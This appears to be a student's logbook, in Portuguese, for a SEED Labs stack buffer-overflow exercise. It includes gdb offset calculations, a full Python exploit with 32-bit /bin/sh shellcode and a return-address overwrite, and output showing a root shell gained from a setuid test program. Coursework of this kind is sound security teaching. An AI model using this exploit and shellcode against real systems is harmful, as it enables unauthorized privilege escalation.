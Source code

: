 # Task 1

```bash
[10/10/22]seed@VM:~/.../shellcode$ a32.out
$ id -u                                                                                                          
1000
```
```bash
[10/10/22]seed@VM:~/.../shellcode$ sudo chown root a32.out
[10/10/22]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out
[10/10/22]seed@VM:~/.../shellcode$ a32.out
# id -u                                                                                                          
0
```

# Task 2

```bash
[10/10/22]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
[10/10/22]seed@VM:~/.../code$ sudo chown root stack
[10/10/22]seed@VM:~/.../code$ sudo chmod 4755 stack
[10/10/22]seed@VM:~/.../code$ ls -l
total 32
-rwxr-xr-x 1 seed seed   270 Oct  3 05:58 brute-force.sh
-rwxr-xr-x 1 seed seed   891 Oct  3 05:58 exploit.py
-rw-r--r-- 1 seed seed   965 Oct  3 05:58 Makefile
-rwsr-xr-x 1 root seed 15908 Oct 10 07:04 stack
-rw-r--r-- 1 seed seed  1132 Oct  3 05:58 stack.c
```

# Task 3

Usando o comando `p` do debugger `gdb` foi possível obter o endereço guardado no registo `ebp` e o endereço do `buffer`. Tendo em conta que o valor do `frame pointer` é 0xffffca98, o valor do `return address` será 0xffffca98 + 4. De modo a descobrir a `distância` entre o endereço base do buffer e o return address, calculou-se a distância entre o ebp e o buffer (0xffffca98 - 0xffffca2c): 108. Uma vez que, o return address está 4 bytes acima do ebp, a `distância` é 108 + 4 = 112.

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffca98
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca2c
gdb-peda$ p/d 0xffffca98 - 0xffffca2c
$3 = 108
gdb-peda$ quit
```

O conteúdo do `shellcode[]` (código malicioso) foi substituído pelo código shellcode 32-bit, cujo tamanho é 27 bytes. Uma vez que o tamanho do array é 517, o `start` deverá ser <= 490 (517 - 27). Neste caso, colocou-se o código malicioso no final do array (start = 490) e o restante é preenchido com 0x90 (NOP´s).
O valor de `ret` calculado acima é 0xffffca98 + 8, no entanto, tendo em conta a nota 2 do guião - "the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb)(...)so the actual frame pointer value will be larger.". Sendo assim o valor de `ret` deverá ser > 0xffffca98 + 8. O valor usado foi 0xffffca98 + 200, foi obtido por tentativa e erro e a condição do resultado 0xffffca98 + nnn não conter nenhum byte a zero está garantida. 

![](./screenshots/logbook5_task3.png) Figura 1: Estrutura do badfile

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca98 + 200           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Como se pode confirmar, depois de correr o programa `stack-L1` temos acesso a uma root shell - `euid=0(root)`

```sh
[10/16/22]seed@VM:~/.../code$ ./exploit.py 
[10/16/22]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                                                             
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker
```
